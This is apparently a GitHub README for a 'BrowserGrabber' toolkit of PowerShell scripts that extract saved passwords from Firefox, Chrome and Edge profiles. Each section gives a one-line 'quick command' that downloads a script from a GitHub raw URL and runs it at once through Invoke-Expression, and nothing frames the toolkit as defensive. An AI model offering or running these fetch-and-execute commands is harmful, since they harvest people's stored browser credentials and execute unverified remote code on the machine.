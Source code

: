 # FirefoxCredentials
One file script to extract passwords from firefox profiles

Quick command: powershell -c "(Invoke-WebRequest https://raw.githubusercontent.com/Ethical-Kaizoku/BrowserGrabber/main/Get-FirefoxPasswords.ps1 -UseBasicParsing).Content | IEX"

Source: https://github.com/techchrism/firefox-password-decrypt/

Note: Does not work on Powershell 7 and after


# ChromeCredentials
One file script to extract passwords from Chrome

Quick command: (Invoke-WebRequest https://raw.githubusercontent.com/Ethical-Kaizoku/BrowserGrabber/main/Get-ChromePasswords.ps1 -UseBasicParsing).Content | IEX

Source: https://github.com/thisismyrobot/chrome-decrypt.ps1

# EdgeCredentials
One file script to extract passwords from Edge

Quick command: (Invoke-WebRequest https://raw.githubusercontent.com/Ethical-Kaizoku/BrowserGrabber/main/Get-EdgePasswords.ps1 -UseBasicParsing).Content | IEX

